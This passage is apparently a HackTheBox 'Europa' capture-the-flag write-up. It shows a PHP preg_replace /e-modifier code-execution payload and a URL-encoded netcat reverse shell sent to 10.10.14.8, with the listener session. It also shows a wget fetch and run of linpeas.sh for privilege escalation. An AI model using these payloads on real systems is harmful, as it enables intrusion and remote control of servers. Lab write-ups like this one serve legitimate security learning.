 The payload appears to be looking for some regex pattern. Doing a quick Google search on `PHP regex exploit` results to this [article](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4). It seems like we can an `e` modifier to the regex/pattern to execute a `PHP` code.

Let’s modify our request to something like this: `pattern=/ip_address/e&ipaddress=system('id')&text=...`

```http
HTTP Request
...
pattern=%2Fip_address%2Fe&ipaddress=system('id')&text=...

HTTP Response
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
```

Nice, we executed some PHP code. Now, we can send a reverse (url encoded) reverse shell command.

```bash
Reverse netcat shell code (non-URL encoded)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f

Reverse netcat shell code (URL encoded)
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E8%201234%20%3E%2Ftmp%2Ff

- HTTP Request - 
...
pattern=%2Fip_address%2Fe&ipaddress=system("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E8%201234%20%3E%2Ftmp%2Ff")&text=...

- Netcat listener -

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Europa]
└─# nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 35470
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege Escalation

```bash
$ wget http://10.10.14.8/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
...
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --re./linpeas.sh: 2587: ./linpeas.sh: grep -R -B1 "httpd-php" /etc/apache2 2>/dev/null: not found
./linpeas.sh: 2773: ./linpeas.sh: gpg-connect-agent: not found
port /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	/var/www/cronjobs/clearlogs
...
```
